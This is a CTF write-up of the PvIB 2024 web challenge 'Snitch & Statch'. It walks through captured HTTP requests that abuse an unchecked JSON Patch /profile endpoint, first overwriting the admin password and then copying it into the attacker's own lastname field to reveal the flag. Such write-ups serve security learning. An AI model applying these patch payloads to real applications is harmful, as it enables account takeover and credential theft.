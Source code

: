# Platform voor Informatiebeveiling CTF 2024

I attended the PvIB ctf this year and came in 14th out of 50. Here I will write down the solution for the easy challenge which I solved.

## Snitch & Statch
This is a webapplication challenge and we are provided with a frontpage, login/registration page, and a profile page.
![alt text](image-1.png)

The profile page shows the fields for our profile, and gives us the option to change the first and lastname.

![alt text](image-2.png)

We will fire up Burp to see what the requests look like.

```
POST /register HTTP/1.1
Host: 192.168.100.161:5000
Content-Length: 85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.100.161:5000
Referer: http://192.168.100.161:5000/register
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=max12.1e8169af192c79d1627b4aba0bfd97682f8dc1f4e3e3c27e16b4c95c3b4a91b1
Connection: close

{
    "username":"flag1",
    "credentials":{
        "password":"flag"
    },
    "firstname":"1",
    "lastname":"2"
}
```

If we update the profile (change the lastname for instance), we will see the following request:

```
PATCH /profile HTTP/1.1
Host: 192.168.100.161:5000
Content-Length: 60
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.100.161:5000
Referer: http://192.168.100.161:5000/profile
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=1234.2277ce056b1a02b80c252a920bfc0067dafec037d1531f970f071916bbf27e64
Connection: close

[
    {
        "op":"replace",
        "path":"/1234/lastname",
        "value":"sssssss"
    }
]
```
To start, I tried to get into the admin account. The cookie seems hashed, but we can modify the /admin/ path without being authenticated as admin. 
When I replaced the /admin/credentials/password path with a self-chosen password I was able to login to the account, but that did not yield the flag. 
However, the string is the password field was hidden, and seemed like the right lenght of the flag: "************" .

Next step was to modify the JSON patch request like so:

```
PATCH /profile HTTP/1.1
Host: 192.168.100.161:5000
Content-Length: 76
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.100.161:5000
Referer: http://192.168.100.161:5000/profile
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=1234.2277ce056b1a02b80c252a920bfc0067dafec037d1531f970f071916bbf27e64
Connection: close

[
    {
        "op":"copy",
        "from":"/admin/credentials/password",
        "path":"/1234/lastname"
    }
]
```
Which got the response:

```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.10.14
Date: Mon, 24 Jun 2024 19:53:30 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 12
Connection: close

User updated
```

This yielded us the flag, which was copied from the credentials field to the lastname field which we can see.

![alt text](image.png)